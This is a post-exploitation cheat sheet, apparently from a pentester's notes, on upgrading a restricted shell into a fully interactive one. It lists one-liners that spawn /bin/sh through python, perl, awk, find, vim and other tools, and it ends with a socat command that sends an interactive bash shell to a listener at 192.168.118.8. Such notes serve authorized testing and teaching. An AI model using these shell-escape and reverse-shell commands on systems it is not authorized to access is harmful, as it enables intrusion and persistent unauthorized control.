 ```yaml
---
tags:
  - Post-Exploitation
---
```

Upgrading a shell allows for command history and key bindings

# Guide

1. `cat /etc/shells` to see all the shells on the system
# Walkthrough 

1. [How to Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
2. [Upgrade Simple Shells to Fully Interactive TTYs | 0xffsec Handbook](https://0xffsec.com/handbook/shells/full-tty/)

# Windows

By using the `runas` command, you can temporarily switch to a different user account that has more permissions, such as an administrator or root account. This can give you access to additional commands and resources that may not be available with your current shell.

To upgrade your shell using the `runas` command, simply specify the user account you want to switch to and the command you want to run. For example, you could run `runas /user:administrator cmd` to open a new command prompt window with administrator privileges.

## Linux 
### stty

Press `ctrl-z`

```sh
stty raw -echo && fg
```

```
reset
```
### Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### Perl

```shell-session
perl —e 'exec "/bin/sh";'
```

### Lua

The command directly below should be run from a script.

```shell-session
lua: os.execute('/bin/sh')
```

### Ruby

The command directly below should be run from a script.

```shell-session
ruby: exec "/bin/sh"
```
### /bin/sh

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

```
/bin/sh -i
```

### AWK

```shell-session
awk 'BEGIN {system("/bin/sh")}'
```
### Bash 

#### Notes

Special Bash characters which can return some information regarding the operating system.

|**Special Character**|**Description**|
|---|---|
|`\d`|Date (Mon Feb 6)|
|`\D{%Y-%m-%d}`|Date (YYYY-MM-DD)|
|`\H`|Full hostname|
|`\j`|Number of jobs managed by the shell|
|`\n`|Newline|
|`\r`|Carriage return|
|`\s`|Name of the shell|
|`\t`|Current time 24-hour (HH:MM:SS)|
|`\T`|Current time 12-hour (HH:MM:SS)|
|`\@`|Current time|
|`\u`|Current username|
|`\w`|Full path of the current working directory|

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

```
/bin/bash -i
```

### Find 

```shell-session
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell-session
find . -exec /bin/sh \; -quit
```

### VIM

```shell-session
vim -c ':!/bin/sh'
```
#### Vim Escape

```shell-session
vim
:set shell=/bin/sh
:shell
```
### SoCat

Listener

```
sudo socat file:`tty`,raw,echo=0 tcp-listen:445
```

Sender

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.118.8:445
```